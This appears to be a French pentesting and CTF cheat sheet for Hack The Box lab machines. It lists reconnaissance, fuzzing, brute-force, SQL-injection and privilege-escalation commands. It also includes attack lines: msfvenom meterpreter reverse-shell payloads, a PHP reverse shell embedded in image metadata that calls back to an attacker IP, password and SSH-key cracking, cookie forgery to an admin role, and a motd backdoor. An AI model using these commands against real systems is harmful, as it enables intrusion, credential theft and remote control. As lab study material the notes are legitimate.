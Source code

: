 # Methodes :



# Recherches d'informations

## Recherche d'informations 
 
## Recherche de failles (exploit)

### Recherche de fail au niveau services
searchsploit NameofService
searchsploit -m URI // --outil de recherche de faille pour outils communs

### Recherche d'informations supplémentaires

nikto -h http://10.10.10.14
nmap -A -sC -sV 10.10.10.14 -Pn

Recherche des failles sur le port 445: 
nmap -p 445 -sC -sV --script vuln 10.10.10.14 -Pn
nmap -p 445 -sC -sV --script "vuln and safe" 10.10.10.14 -Pn
La liste des catégories des scripts est dispo sur : grep -r categories /usr/share/nmap/scripts/*.nse | grep -oP '".*?"' | sort -u

Avec msfconsole :
sudo msfconsole
search NameOfService

### Failles WEB
Sur un serveur distant peut être executé plusieurs commandes tel que GET PUT POST etc ... 
Sur un serveur web on peut tester un WEBDAV : davtest -url http://10.10.10.14

nmap ( 
 -A : détection du système et des versions
 -sP : simple ping scan
 -sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
 -sN/sF/sX: Scans TCP Null, FIN et Xmas
 -Sc : export result
 -sU: Scan UDP 
 -T4 : Définit une temporisation[0-5]
  )
nmap -A -T4 -sV 10.10.10.157

enum4linux -a <IP>

### Enumération
gobuster --url http://target.com/ dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

++ Pour trouver les fichiers du type php,txt,html,htm.
gobuster --url http://docker.hackthebox.eu:30030/api/ dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x php,txt,html,htm


dirb http://target.com/ /usr/share/dirb/wordlists/common.txt

### FUZZ
wfuzz -c -z file,'shell.txt' http://10.10.10.181/FUZZ
wfuzz --hh=24 -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://docker.hackthebox.eu:30030/api/action.php?FUZZ=test

### Utilisation de msfconsole

Configurer la cible pour le ReverseShell :
soit en faisant : show TARGETS
set TARGET "id"

Soit en faisant :
set payload windows/x64/meterpreter/reverse_tcp

lancer l'exploit :
exploit
run
exploit -j //En arrière plan

Afficher la liste des sessions :
sessions -i


## Injection SQL
Trouver des sitesvulnérables via injection SQL :
sqliv -d inurl:item.php?id= -e bing -p 100

## Processus
Liste des processus : htop

## Network
netstat -tulp
(port ouvert en local)

## Bruteforce
hydra

Scanner les répertoires d'un site web :

## ReverseShell

explorer les sous domaines : dig axfr @10.10.10.13 cronos.htb​​ after adding ​ cronos.htb​​ to the ​ /etc/hosts​​ file.


## Privilege Escalation

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

## Création d'un serveur WEB

python -m SimpleHTTPServer <PORT>
-> Lance un serveur web dans le répertoire local

## Reverse Enginerring

### GBD
Commandes gdb :

disass main -> désassemblage de la fonction main

b *0x5655555d0 -> placer un breakpoint à l’adresse spécifiée

x/x $eip -> Affiche la valeur d’un registre ($ = valeur)

x/i $eip -> Affiche la prochaine instruction dans le registre eip

x/wx $esp -> Affiche la valeur sur la stack

r -> run

c -> continue

dumpargs -> dumper les arguments du programme

Pour faire un buffer overflow, il suffit de récupérer l’adresse de la sauvegarde du registre eip et l’adresse de début du buffer, on peut soustraire les deux et trouver le nombre de caractères que prend en compte notre buffer

Compiler sans protection :

gcc -m32 -fno-stack-protector -z execstack bof.c -o bof

-> Si la compil en 32bits ne fonctionne pas, installer libc en 32bits :

apt-get install libc6-dev-i386




Rajouter au fichier host :
nano /etc/hosts

python -c 'import pty; pty.spawn("/bin/sh")'

Reverse shell samples :

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Scripts d’énumération automatique :

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

Commandes d’interaction (pour CTF communs)

who

-> Affiche les tty connectés

wall "hello world !"
-> Envoie un message sur tous les tty connectés

Transfert de fichiers

socat TCP4-LISTEN:1234 TCP4:10.10.10.171:80 &
-> Lance un relai TCP vers une autre machine (pivoting)

Pratique lorsqu’on se connecte à HTB via un VPS



apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
->Lance un serveur ftp dans le répertoire courant

impacket/examples/smbserver.py -smb2support -username guest -password guest share /root/htb
-> Lance un serveur smb accessible en tant que guest/guest

Possibilité d’y accéder sous Windows avec un net use

Enumération :

nslookup -type=<MX / A / AAA / TXT / CNAME / PTR> <DOMAIN>
nslookup -type=MX test.fr

nmap ( 
 -A : détection du système et des versions
 -sP : simple ping scan
 -sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
 -sN/sF/sX: Scans TCP Null, FIN et Xmas
 -sU: Scan UDP 
 -T4 : Définit une temporisation[0-5]
  )
nmap -A -T4 -sV 10.10.10.157

nmap --script <SCRIPT> -p <PORT> <IPADDRESS>
nmap –script smb-vuln* -p 139,445 10.10.10.134

nikto -h <URL> -p <PORTS>
nikto -h 192.168.0.1 -p 80,443

gobuster --url <IP ADDRESS> dir --wordlist <WORDLIST> -x <EXTENSION>
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //<IPADDRESS>/ -U ""
Enumération des répertoires partagés accessibles en anonymous

rpcclient -U "" -N 10.10.10.180
Accès en RPC de façon anonyme (WINDOWS)

enum4linux -a 10.10.10.180
Enumération SMB, RPC & co (WINDOWS)

cat *.txt | gobuster --url 10.10.10.157 dir --wordlist -
-> pour piper plusieurs wordlists dans gobuster

dirb <url> <wordlist>
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
 -a "agent" -> spécifie un user-agent
 -R -> récursivité interactive
 -o output.txt -> redirige l'output
wfuzz --hh=<PARAM_SIZE>  -w <WORDLIST> <URL>.php?<PARAM_NAME>=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test

Exploitation & Elévation de privilèges :

python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet

padbuster <URL> <COOKIE> <BLOCK_SIZE> -cookies "<PHPESSID_COOKIE> <OPTIONNAL_COOKIES>" --plaintext '<NEW_VALUE>'
padbuster http://docker.hackthebox.eu:59436/profile.php tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D 8 -cookies “PHPSESSID=74j9m7o8pbaq8pdoq3l56rvpk4; iknowmag1k=tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D” –plaintext ‘{“user”:”test”,”role”:”admin”}’

searchsploit -t <INTITLE>  <KEYWORDS> -w
searchsploit windows local smb

sudo -l
-> liste les commandes autorisées pour l’utilisateur courant

find / -type d -writable 2> /dev/null
-> Liste les répertoires accessibles en écriture

find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
-> Liste les binaires exécutables par l’utilisateur courant

find / -type f -perm /6000 -ls 2>/dev/null 
-> Liste les fichiers setuid/setgid sur le système

find / -iname "mon_fichier" -print 2>/dev/null
-> Trouver un fichier précis sur le système

binwalk socute.jpg 
-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)

msfvenom -p windows/meterpreter/reverse_tcp lhost=<LOCALIP> lport=<LOCALPORT> -f <FORMAT> > <OUTPUTFILE>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

 exiftool -Comment='<?php $sock = fsockopen("<IPADDRESS>",<PORT>);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>'   <IMAGE>
exiftool -Comment='<?php $sock = fsockopen(“10.10.10.1”,1234);$proc = proc_open(“/bin/sh -i”, array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png

Injection SQL :

sqlmap -u <URL> (--dbs / --tables -D <DATABASE> / --columns -D <DATABASE> -T <TABLENAME>)
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES

Bruteforce :

crunch <MIN> <MAX> <CONTENT>
crunch 4 15 “abcdefghijklmnopqrstuvwxyz”

hydra -l <USER> -P <WORDLIST> <IP ADDRESS> <METHOD> <URL>
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l <LOGIN> -P <WORDLIST> <URL> <METHOD>"<PAGE>:<ARGUMENT>=^<VALUE>^:<INCORRECT STRING>" -w <THREADS> -s <PORT>
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form “/index.php:password=^PASS^:Invalid password” -w 10 -s 45692

john --incremental <HASHFILE>
Pour bruteforcer de façon incrémentale

john <HASHFILE> --wordlist=/usr/share/wordlists/rockyou.txt
Pour bruteforcer avec un dictionnaire

Script de bruteforce anti-CSRF :

https://github.com/J3wker/anti-CSRF_Token-Bruteforce

Mémo Assembleur

Les Registres et leurs fonctions :


Les Instructions :





Rapport de scan nmap :
nmap -A ip
nmap -sC -sV -sT -oN magic.txt Magic.htb
nmap --script smb-vuln* -p 135,139,445 10.10.10.169 //Vulnérabilité SMB

Enum4Linux:
enum4linux 10.10.10.172

Obtenir le passphrase :
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
chmod 700 id_rsa id_rsa.hash
john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash

Voir la liste des droits sudo de l'utilisateur actuel :
sudo -l
sudo -u root nano /chemin/
Executer une commande depuis un fichier CTRL+R and CTRL+X



Parcourir un fichier sans cd :
ls local/config (etc cat ..)

Afficher les fichiers cachés sur linux :
ls -lAR​ ​ /home/george

connect to sysadmin :
echo 'os.execute("bin/bash -i")' > hack.lua
sudo -u sysadmin /home/sysadmin/luvit hack.lua

Afficher du contenue de fichier lors de la connection :
cd /etc/update-motd.d/ #Mise à jour tout les 30 secondes
echo "cat /root/root.txt" >> 00-header

Voir l'historique:
cat .bash_history
history

Memo :
Penser à chercher les infos dans les sources webs. id et mdp.

ImageHidding afficher les trucs cachés :
steghide extract -sf HackerAccessGranted.jpg

Ecouter sur un port :
nc -lvp port //Listenning on any adress


LinEnum.sh
Service HTPPServer Python : python -m SimpleHTTPServer <PORT>


Pour Privilege esclation sur une session meterpreter:
background
Lister les sessions : sessions -l
Changer de session : session -i 1
Reconnaissance : use post/multi/recon/local_exploit_suggester
